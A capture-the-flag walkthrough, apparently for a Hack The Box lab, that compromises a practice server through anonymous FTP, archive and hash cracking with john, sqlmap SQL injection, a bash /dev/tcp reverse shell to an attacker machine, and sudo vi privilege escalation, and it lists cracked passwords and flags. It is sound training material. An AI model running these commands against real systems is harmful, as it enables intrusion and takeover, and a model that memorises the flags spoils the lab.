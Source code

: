 ## Vaccine Solution

### Besides SSH and HTTP, what other service is hosted on this box?
1. Run an nmap scan with the `-sV` (version of services) `-sC`(default scripts for service discovery and vulnerability detection) 
   ```bash
   nmap -sV -sC {target_machine_ip}
   nmap -sC -sV 10.129.251.21
   ```
![Screenshot 2024-02-19 at 8 50 14 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/6e42d6b3-b7cf-4f42-978f-8213b6bb9f10)

**Answer: ftp**

### This service can be configured to allow login with any password for specific username. What is that username? 

As with the nmap results above the `sC` option was able to determine that **Anonymous FTP login allowed**. If you do a google search the username for this is usually `anonymous`

**anonymous**

### What is the name of the file downloaded over this service?

1. Let's connect via ftp

```bash
ftp {target_machine_ip}
```

2. For username just use `anonymous` and just enter blank password.
3. Enter `ls` and you will find `backup.zip`
4. Run `get backup.zip`

![Screenshot 2024-02-19 at 11 41 56 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/5a467605-0e2d-44f8-b10c-26c3235f9790)



**Answer: backup.zip**

### What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

1. We try to unzip the backup.zip however a password is required.
   
   ![Screenshot 2024-02-20 at 12 00 57 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/ae3c46ff-0939-4956-8cc9-8d8c92440424)


2. Do a quick google search and you will find the answer

**Answer: zip2john** 


### What is the password for the admin user on the website?

1. Let's run the `zip2john` script to crack the password. First let's obtain the password hashes.
   ```bash
   zip2john backup.zip > zip.txt
   ```
 
   ![Screenshot 2024-02-20 at 11 08 05 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/1a4ac24e-c684-4583-8f3d-77fd3d0e2db3)

2. Then let's crack the password for the backup.zip
   ```bash
   john zip.txt   
   ```
   ![Screenshot 2024-02-20 at 11 08 56 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/ed883cff-3296-4b69-b6cb-88d6a3d2633a)


3. Now let's unzip backup.zip with the password `741852963`. This gives us two files `index.php` and `style.css`
   ```bash
   unzip backup.zip
   ```
   
![Screenshot 2024-02-20 at 11 10 22 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/d214ebb6-65ae-4578-ab97-ad4f922a922b)

4. Now let's investigate the index.php `vim index.php`. Here we find a hashed password `2cb42f8734ea607eefed3b70af13bbd3` for the username `admin`. 
   
![Screenshot 2024-02-20 at 11 21 43 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/89307436-b4f4-4097-8c85-98c40531cd06)

5. Let's analyze the hash type by going on any hash analyzer. We use [https://hashes.com/en/tools/hash_identifier](https://hashes.com/en/tools/hash_identifier) in this case and find that it is MD5 format.

   ![Screenshot 2024-02-20 at 11 35 10 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/f49117bb-77a6-4b85-beab-f66fc95b04db)


6. Create a file called `admin-hash.txt` then insert the hash found in the previous step. Let's crack the hash password using john
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 admin-hash.txt
```
![Screenshot 2024-02-20 at 11 42 25 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/39740423-3616-4cf0-a75f-c1af601dd2e7)


**Answer: qwerty789**


### What option can be passed to sqlmap to try to get command execution via the sql injection?

1. Login using username `admin` and password `qwerty789`
2. Go to browser and get the cookie `PHPSESSID` value

![Screenshot 2024-02-22 at 12 45 40 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/9954818a-ad05-4789-9292-8b6e202e1b8a)



3. Next as we view with the page after we login, we can see one possible form to attack with SQL injection. We observe that submitting it appends a query parameter `search`
   
![Screenshot 2024-02-22 at 12 49 49 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/6f874149-cb51-4d73-81a8-488be978f271)

4. Let's use sqlmap and run the following.

```bash
sqlmap -u "http://{target_ip}/dashboard.php?search=test" --cookie="PHPSESSID={cookie_value}"

sqlmap -u "http://{target_ip}/dashboard.php?search=test" --cookie="PHPSESSID={cookie_value}" --os-shell

```
5. We have spawned a os-shell with user postgres. However executing `sudo -l` does not yield any meaningful results. The os-shell is limited in commands it can execute. It is not interactive 

![Screenshot 2024-02-22 at 12 56 35 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/508193c6-850c-405d-89c9-8c13377c2e08)

6. Let's go to our attack machine and create a netcat listner server

```bash
  nc -lvnp 5000
```

7. On our target machine running sqlmap os-shell let's connect to our server to spawn a reverse shell.

```bash
 bash -c  "bash -i >& /dev/tcp/{attack_machine_ip}/5000  0>&1"

```

8. We have spawned a reverse shell however we do not have an interactive shell yet.
   
![Screenshot 2024-02-22 at 1 11 58 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/e4502837-7e73-4692-8d16-6c07b0d3aae5)

9. Run the following to have an interactive shell. 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo
export TERM=xterm
```

10. We now have an interactive shell. Hovever we have to know the password of user `postgres` to run `sudo -l`
    
![Screenshot 2024-02-22 at 2 00 25 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/f39b4b0a-70c7-45ab-954f-325620f72896)

11. We have to find the password in the system. And since this server running a website, one of the places we can look at is `/var/www/`
    
![Screenshot 2024-02-22 at 2 26 14 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/60fdfdc5-b94d-487a-8b70-c05438972859)

12. Let's explore each of the files in the `html` folder. Under the `dashboard.php` file we find. 

![Screenshot 2024-02-22 at 2 32 15 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/2582d9ed-becf-4bd2-be03-eb392cde88b0)


13. We test this password by using it for the password prompt for `sudo -l` Where we find that we have sudo rights for vi program.

![Screenshot 2024-02-22 at 2 10 53 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/752994b0-6b2d-4cf4-9aa4-9fa83b68a295)

**Answer: vi** 

### Submit user flag

1. Our connection via reverse shell is always being disconnected from the server. Since we know the password (P@s5w0rd!) of the user `postgres`, let's just connect via ssh.
   ```bash
   ssh postgres@{target_machine_ip}
   ```

2.  Run `cd ~/` to go to `postgres` user's folder to see if there is something interesting. In here we will find `user.txt`

![Screenshot 2024-02-22 at 2 49 00 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/09726c3d-4635-4b0d-9f71-86de6ab0e1f9)

**Answer:ec9b13ca4d6229cd5cc1e09980965bf7**

### Submit the root flag

1. Continuing with our terminal established via ssh connnection in the previous section. We know that our current `postgres` user has sudo privileges for `vi`. Now let's attempt priviledge escalation.
   
2. Let's go to [https://gtfobins.github.io/gtfobins/vi/#shell](https://gtfobins.github.io/gtfobins/vi/#shell) to check if we can run a command to escalte our privileges to root.
   
3. Run the following:
   ```bash
    sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
   ```
   ![Screenshot 2024-03-10 at 4 29 43 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/4b7fc1a9-452d-4b4f-a3cc-3926f46aa5ac)
   
4. Then execute the following from inside vi based on GTFOBins
   ```bash
   :set shell=/bin/sh
   :shell
   ```
5. Now we have escalated our privileges and have a shell with root privileges. Now let's look for `root.txt`
   ```
   find / -type f -name "root.txt"
   ```
![Screenshot 2024-03-10 at 4 33 06 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/2666f836-1ec0-4d42-8533-ed61a4eb84cf)

   
6. Now let's look at the file to get flag
   ```bash
   vi /root/root.txt
   ```
**Answer: ddd6e058e814260bc70e9bbdef2715849**
